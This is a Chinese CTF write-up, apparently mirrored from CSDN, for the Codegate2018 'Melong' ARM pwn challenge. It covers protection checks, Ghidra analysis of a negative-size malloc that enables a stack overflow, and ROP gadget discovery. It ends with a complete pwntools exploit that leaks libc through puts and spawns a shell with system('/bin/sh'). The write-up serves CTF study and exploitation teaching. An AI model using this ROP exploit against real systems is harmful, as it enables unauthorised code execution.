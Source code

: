 <!--yml
category: 未分类
date: 2022-04-26 14:38:30
-->

# ctf-wiki ARM ROP Codegate2018_Melong题解_flypwn的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_42016744/article/details/118517898](https://blog.csdn.net/weixin_42016744/article/details/118517898)

## 写在前面

ctf-wiki关于arm pwn的[arm - ROP](https://ctf-wiki.org/pwn/linux/arm/arm_rop/#arm-rop "Permanent link")中的例题是Codegate2018_Melong，但在网上一直没找到write up，这里跟着官方解给出的exp调试记录。

## 确定保护

```
$ file ./melong
./melong: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=2c55e75a072020303e7c802d32a5b82432f329e9, not stripped
$ checksec ./melong
[*] '/home/giantbranch/ctf_wiki_study/ctf-challenges/pwn/arm/Codegate2018_Melong/melong'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000) 
```

猜测是栈溢出题目，保护机制带随机部分随机化，Partial RELRO

## 静态分析

首先用命令`$ qemu-arm -L ./ ./melong`运行程序，程序结果如下图所示：
![在这里插入图片描述](img/444eca59e16f9523c089d2c0534b8569.png)

典型菜单题，运行之后发现首先需要选择菜单1，计算bmi指数，之后才能选择其他功能。经测试程序的大规模文本输入点在选项4中，但是需要选项3符合一定条件才行。

```
You are underweight !!
1\. Check your bmi
2\. Exercise
3\. Register personal training
4\. Write daily record
5\. Have some health menu
6\. Out of the gym

Type the number:3
Let's start personal training
How long do you want to take personal training?
10
Check your bmi again!!
1\. Check your bmi
2\. Exercise
3\. Register personal training
4\. Write daily record
5\. Have some health menu
6\. Out of the gym

Type the number:4
you should take personal training first!! 
```

将程序拖到ghidra进行静态分析，查看主函数中case 3和case 4中的情况。
![在这里插入图片描述](img/ef2293a720a506721842b412e714e8e5.png)

可以看到若想到达case 4中的write_diary函数，首先需要变量local_18[0]!=0才行。
注意到case 3中：local_18[0]=PT()，进一步查看函数PT()中的内容，伪代码如下图所示：

```
size_t PT(void)

{
  size_t local_14;
  void *local_10;
  int local_c;

  puts("Let\'s start personal training");
  puts("How long do you want to take personal training?");
  __isoc99_scanf(&DAT_00011e24,&local_14);
  local_10 = malloc(local_14);
  if (local_10 == exc2) {
    puts("Okay, start to exercise!");
    local_c = 0;
    while (local_c < (int)local_14) {
      puts("you are getting healthy..");
      sleep(1);
      local_c = local_c + 1;
    }
    free(local_10);
  }
  else {
    puts("Check your bmi again!!");
    free(local_10);
    local_14 = 0;
  }
  return local_14;
} 
```

这里没明白local_10==exc2中的exc2是什么意思。但是经测试输入-1时，在菜单4中可以写入，猜测这里是可能的溢出点。

```
Type the number:3
Let's start personal training
How long do you want to take personal training?
-1
Okay, start to exercise!
1\. Check your bmi
2\. Exercise
3\. Register personal training
4\. Write daily record
5\. Have some health menu
6\. Out of the gym

Type the number:4
dddddddd
you wrote dddddddd 
```

尝试输入长字符：

```
Type the number:4
ddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddd
you wrote ddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddd

1\. Check your bmi
2\. Exercise
3\. Register personal training
4\. Write daily record
5\. Have some health menu
6\. Out of the gym

Type the number:6
See you again :)
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
Segmentation fault (core dumped) 
```

进入gdb调试，开启两个termial
`qemu-arm -L ./ -g 2222 ./melong`

```
> gdb-multiarch ./melong
> target remote :2222 
```

挂载调试程序崩溃时的场景，存在栈溢出。
评估栈溢出的长度,利用pwntools中的cyclic工具，偏移长度84

看到函数表中有puts函数，可以上pwn的传统工艺:
栈溢出==>puts(elf.got[‘function_name’])<mark>>计算libc基址</mark>>跳回main==>跳转到system("/bin/sh")

arm32利用gadget:`pop {r0,pc}`
利用ROPgadget寻找地址：

```
> ROPgadget --binary ./melong --only "pop"
Gadgets information
============================================================
0x000106bc : pop {fp, pc}
0x00011bbc : pop {r0, pc}
0x00010460 : pop {r3, pc}
0x000109cc : pop {r4, fp, pc}
0x000105e4 : pop {r4, pc}
0x00011408 : pop {r4, r5, pc}
0x0001173c : pop {r4, r5, r6, pc}
0x00011d28 : pop {r4, r5, r6, r7, r8, sb, sl, pc}

Unique gadgets found: 8 
```

完成EXP如下所示：

```
from pwn import *
from time import sleep
import sys
context.binary = "./melong"

if sys.argv[1] == "r":
    io = remote("localhost", 9999)
elif sys.argv[1] == "l":
    io = process(["qemu-arm", "-L", "./", "./melong"])
elif sys.argv[1] == "g":
    io = process(["qemu-arm", "-g", "1239", "-L", "./", "./melong"])

elf = ELF("./melong", checksec = False)
libc = ELF("./lib/libc.so.6", checksec = False)

def check(height,weight):
    io.sendlineafter("number:","1")
    io.sendlineafter(" : ",str(height))
    io.sendlineafter(" : ",str(weight))
def register():
    io.sendlineafter("number:","3")
    io.sendlineafter(" training?\n","-1\n")

def write_record(record):
    io.sendlineafter("number:","4")
    io.send(record)

def log_out():
    io.sendlineafter("number:","6")

pop_r0 = 0x11bbc
check(1.82,600)
register()
payload=cyclic(100)
log_out()

payload=cyclic(84)+p32(pop_r0)+p32(elf.got['printf'])+p32(elf.plt['puts'])+p32(0x110cc)*8
write_record(payload)
log_out()
io.recvuntil("again :)\n")
libc_address=u32(io.recvn(4))-libc.sym['printf']
success("libc_address->{:#x}".format(libc_address))
libc.address=libc_address
check(1.9,30)
register()
print("libc.search type is ",libc.search("/bin/sh"))
print(hex(libc.sym["system"]))
print(hex(next(libc.search("/bin/sh"))))
payload=cyclic(0x54)+p32(pop_r0)+p32(next(libc.search("/bin/sh")))+p32(libc.sym["system"])
write_record(payload)
log_out()
io.interactive() 
```